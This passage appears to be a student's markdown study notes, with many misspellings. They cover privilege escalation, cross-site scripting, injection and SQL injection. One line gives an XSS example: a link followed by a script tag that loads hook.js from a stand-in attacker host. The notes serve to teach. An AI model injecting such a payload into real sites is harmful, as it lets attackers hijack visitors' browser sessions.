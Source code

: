 # Privilege escalation
- The attacker gains full access to a system
   - Usally exploits a vulnerability  
   - Malware can catch any privilage escalation 

- **Example** - CVE-2020-1530 Windows Remote Access Elevation of Privelage vulnerability august 20, 2020

# Cross-site scripting
- A malicious script hosted on the attacker's site or coded in a link injection onto a trusted site designed to compromise clients browsing the trusted site.
  - Also known as XSS
  - Orginally associated with a browser security flaws; Information from one site to another could be shared

- Process of an XSS attack
1. The attacker indentifies an input validation vulnerability in a trusted site
2. The attacker crafts a URL to perform a code injection against the trusted site. 
3. When the user clicks the link, the trusted site returns a page containing the malicious code injected by the attacker

- **Example** - Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.

- **Non-persistant XSS attack**
    - seach box is a common source 
    - Sent through link that activates payload 
    - Hacker can get session id and more information

- **Persistent XSS attack** 

    - Includes a malicious payload 
    - The malicious message has the virus and everyone gets it when the message is read 
    - There isnt someone targeted; different from non-persistant where the person can be targeted 
    - Can spread easy through social media

    - **Example** - Subaru website gave you a log in token when you entered the website. The log in token never expired, therefore if someone got ahold of this token, theu could log in. 

# Injection
- Adding your own information in a data stream 
  - Enabled because of bad programming 

- Different data types such as HTML,SQL,XML,LDAP,etc.

# SQL injectionv
- An attack that injects a database query into the input data directed at a server by accessing the client side of the application
  - SQL stands for Structured Query Language
